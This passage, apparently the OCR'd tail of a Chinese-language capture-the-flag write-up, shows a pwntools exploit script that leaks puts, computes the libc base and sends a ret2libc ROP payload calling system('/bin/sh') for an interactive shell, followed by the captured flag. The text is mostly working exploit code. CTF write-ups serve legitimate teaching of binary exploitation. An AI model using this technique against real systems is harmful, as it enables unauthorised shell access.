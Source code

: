   print(hex(puts_addr))
  
  libcbase = puts_addr - libc.symbols['puts']
  
  print(hex(libcbase))
  
  sys_addr = libcbase + libc.symbols['system']
  
  bin_sh_addr = libcbase + next(libc.search(b'/bin/sh'))
  
  io.recv()
  
  #第二次攻击
  
  io.sendline(b'1')
  
  payload2 = b'a' * 136+ ret_addr + pop_rdi_ret_addr + p64(bin_sh_addr) + p64(sys_addr)
  
  io.send(payload2)
  
  io.interactive()
  ```

- 得flag：SYC{8d8c5c33-1f17-4ccf-afe2-e4ababbf1d7a}